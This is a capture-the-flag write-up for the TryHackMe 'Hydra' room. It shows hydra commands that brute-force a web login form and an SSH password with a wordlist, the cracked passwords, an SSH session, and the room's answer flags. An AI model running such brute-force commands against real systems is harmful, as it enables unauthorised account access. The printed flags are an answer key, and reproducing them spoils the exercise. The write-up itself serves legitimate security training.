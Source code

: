 # TryHackMe [Hydra](https://www.tryhackme.com/room/hydra)
### References
* DarkSec. (2020). TryHackMe Hydra Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/8fs_7bm88GY

## Use Hydra to brute force Molly's web password. What is flag 1?
* Brute force Molly's password with `hydra`:
```bash
$ hydra -l molly -P rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
[80][http-post-form] host: <MACHINE_IP>   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```
* Login to the webpage with the credentials and obtain the flag:
```html
<div class="jumbotron text-center">
	<h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
</div>
```

**Flag 1**: `THM{2673a7dd116de68e85c48ec0b1f2612e}`
## Use Hydra to brute force Molly's SSH password. What is flag 2?
* Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:
```bash
$ hydra -l molly -P rockyou.txt <MACHINE_IP> ssh
[22][ssh] host: <MACHINE_IP>   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```
* Log-in to Molly's server using her SSH credentials:
```
$  ssh molly@<MACHINE_IP>
molly@<MACHINE_IP>'s password: butterfly
molly@ip-10-10-66-163:~$ ls
flag2.txt
molly@ip-10-10-66-163:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```

**Flag 2**: `THM{c8eeb0468febbadea859baeb33b2541b}`